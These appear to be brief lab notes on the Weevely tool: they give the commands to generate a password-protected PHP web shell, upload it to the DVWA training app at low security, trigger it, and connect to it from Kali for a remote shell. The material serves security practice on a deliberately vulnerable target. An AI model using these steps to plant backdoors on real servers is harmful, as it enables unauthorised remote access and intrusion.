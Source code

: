 # Weevely

1. Create backdoor in Kali
   - ```weevely generate 123456 /root/shell.php```
2. Upload in vulnerable app (DVWA-Low)
3. Send a request to uploaded php file (run it)
   - *http://192.168.152.132/dvwa/hackable/uploads/shell.php*
4. Connect to shell from Kali
   - ```weevely http://192.168.152.132/dvwa/hackable/uploads/shell.php```
